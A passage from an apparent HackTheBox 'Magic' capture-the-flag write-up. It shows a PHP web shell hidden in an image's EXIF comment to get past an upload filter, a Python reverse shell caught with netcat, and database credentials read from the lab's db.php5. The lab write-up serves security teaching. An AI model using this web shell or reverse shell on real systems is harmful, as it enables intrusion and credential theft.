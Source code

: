 And we have access to the upload page:

![upload]({{site.baseurl}}/assets/img/HackTheBox/Magic/upload.png)

## Upload exploitation

So it seems that it is checking for file extension so we can instead use the `exiftool` to add some php code to any image we download

```bash
exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' test.png
```

Let's rename the image to `test.php.png` to be able to use it:

```bash
mv test.png test.php.png
```

and now upload the image to the site and let's try it out

```
http://10.10.10.185/images/uploads/test.php.png?cmd=ls
```

![lscmd]({{site.baseurl}}/assets/img/HackTheBox/Magic/lscmd.png)

In the big jumble mess, in the upper right corener we can see the result of `ls` so we know that it is working. Now let's execute a python reverse shell

```BASH
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[YOUR IP]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Pop that into the url and get a netcat shell

```bash
nc -lvnp 1234
listening on [any] 1234 ...
connect to [[YOUR IP]] from (UNKNOWN) [10.10.10.185] 59852

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/Magic/images/uploads$ 
```

We now have a shell in the website.

## Get the USER flag

We know that this website uses sql so there must be some db related files in there. After a little bit of research (not too long) I found `db.php5`:

**db.php5**

```PHP
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';

    private static $cont  = null;

    public function __construct() {
        die('Init function is not allowed');
    }
```